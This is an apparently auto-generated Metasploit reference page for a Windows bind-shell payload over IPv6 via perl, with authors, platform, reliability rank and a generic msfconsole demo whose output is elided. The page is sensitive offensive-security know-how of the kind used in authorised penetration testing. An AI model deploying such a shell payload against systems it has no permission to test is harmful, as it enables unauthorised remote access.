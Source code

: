 ## Windows Command Shell, Bind TCP (via perl) IPv6

Listen for a connection and spawn a command shell via perl 
(persistent)


## Module Name
payload/cmd/windows/bind_perl_ipv6

## Authors
* Samy <samy[at]samy.pl>
* cazz
* patrick





## Platforms
win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/cmd/windows/bind_perl_ipv6
msf payload(bind_perl_ipv6) > show targets
   ... a list of targets ...
msf payload(bind_perl_ipv6) > set TARGET <target-id>
msf payload(bind_perl_ipv6) > show options
   ... show and set options ...
msf payload(bind_perl_ipv6) > run
```
    
    